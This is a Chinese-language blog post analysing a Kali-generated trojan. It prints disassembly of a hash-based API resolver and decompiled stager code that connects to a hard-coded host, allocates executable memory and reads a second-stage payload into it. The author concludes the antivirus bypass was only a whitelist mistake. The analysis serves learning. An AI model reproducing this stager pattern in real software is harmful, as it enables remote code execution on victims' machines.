

# 样本来源

2023年8月份吧....22级招新那段时间

陈伟杰学弟利用Kali生成了一个木马

发现是可以绕过火绒的,,,,无论是火绒主动扫描还是动态的探测

发现该木马仍然不会被检测出来

甚至过了一个月,,,该样本仍然不会被火绒查杀


# 样本分析


```c++
void __stdcall Get_API(DWORD a1, ...);
```

该函数的参数个数不定,,,传递进去的都会被APi给std_call平衡堆栈的

然后a1就决定了要调用哪一个API


该函数的开头

```c++
.data:0041A14A pusha
```

然后该函数push 了2个参数的

```assembly
.data:0041A1DA push    3233h
.data:0041A1DF push    5F327377h       ; 
.data:0041A1E4 push    esp             ; push进去的是一个字符串内容
.data:0041A1E5 push    726774Ch        ; 这是API_hash
.data:0041A1EA mov     eax, ebp
.data:0041A1EC call    eax
```


然后看一下该函数的末尾状态

```assembly
.data:0041A1AF pop     eax
.data:0041A1B0 mov     ebx, [eax+24h]
.data:0041A1B3 add     ebx, edx
.data:0041A1B5 mov     cx, [ebx+ecx*2]
.data:0041A1B9 mov     ebx, [eax+1Ch]
.data:0041A1BC add     ebx, edx
.data:0041A1BE mov     eax, [ebx+ecx*4]
.data:0041A1C1 add     eax, edx ;eax是API_RVA,edx是dll的imagebase
.data:0041A1C3 mov     [esp+36], eax;把API放在esp+36
.data:0041A1C7 pop     ebx ;平衡堆栈
.data:0041A1C8 pop     ebx ;平衡堆栈
.data:0041A1C9 popa		;拿出以前的环境,eax,ebx,ecx,,什么的会恢复的
.data:0041A1CA pop     ecx ;取出返回地址
.data:0041A1CB pop     edx ;平衡本函数的栈
.data:0041A1CC push    ecx ;压入返回地址
.data:0041A1CD jmp     eax ;去往API函数
```


# 行为分析


SMC阶段

函数调用阶段


调用LoadLibiray

```c++
76A50000: loaded C:\WINDOWS\SysWOW64\ws2_32.DLL
76EC0000: loaded C:\WINDOWS\SysWOW64\RPCRT4.dll
```


我想,,主要干活的应该是下面这几个东西


```c++
// 当前位于区块4,但是获取了区块3的起始地址
// positive sp value has been detected, the output may be wrong!
int sub_41A1D9()
{
  int (__cdecl *run_API)(void *, int, int *); // ebp
  void *v1; // esp
  int v2; // eax
  int *v3; // esi
  int v4; // edi
  int v5; // esi
  int v6; // ebx
  int result; // eax
  int *v8; // [esp-8h] [ebp-234h]
  int v9; // [esp-4h] [ebp-230h]
  int v10; // [esp+1Ch] [ebp-210h]
  _BYTE v11[8]; // [esp+74h] [ebp-1B8h] BYREF
  int v12; // [esp+7Ch] [ebp-1B0h]
  int v13; // [esp+8Ch] [ebp-1A0h] BYREF
  _DWORD v14[2]; // [esp+224h] [ebp-8h] BYREF

  run_API = v14[1];
  HIBYTE(v14[1]) = 0;
  strcpy(v14, "ws2_32");
  (run_API)(0x726774C, v14);                    // load一下dll
  v1 = alloca(400);                             // 这是尼玛的通过栈开辟的空间,,而不是Alloc
  v2 = run_API(&unk_6B8029, 400, &v13);         // ws2_32_WSAStartup
  v12 = 10;
  while ( 1 )
  {
    v3 = v11;
    v4 = (run_API)(0xE0DF0FEA, v2 + 2, v2 + 1, v2, v2, v2, v2, 0x2A030002, 686589995);// ws2_32_WSASocketA
    while ( (run_API)(0x6174A599, v4, v11, 16) )// ws2_32_connect
    {
      if ( !--v12 )
        goto LABEL_5;
    }
LABEL_6:
    if ( (run_API)(0x5FC8D902, v4, v3, 4, 0) > 0 )
      break;
LABEL_10:
    v2 = (run_API)(0x614D6E75, v4);
    v3 = v8;
    if ( !--v9 )
    {
LABEL_5:
      (loc_41A29C)();
      goto LABEL_6;
    }
  }
  v5 = *v3;
  v6 = (run_API)(0xE553A458, 0, v5, 0x1000, 0x40);
  v10 = v6;
  do
  {
    result = (run_API)(0x5FC8D902, v4, v6, v5, 0, v10);
    if ( result < 0 )
    {
      v9 = 0x300F2F0B;
      (run_API)();
      goto LABEL_10;
    }
    v6 += result;
    v5 -= result;
  }
  while ( v5 );
  return result;
}
```


# 分析总结

好了不分析了....

原本以为它真的可以绕过火绒的免杀

结果.....是因为我把木马放在了白名单的文件夹

所以,,,看一个SMC,,,,然后看一个API_RUN()的函数,,收获也还是有的

但是文件免杀,,,动态免杀,,,这些东西,,,还是很难绕过的



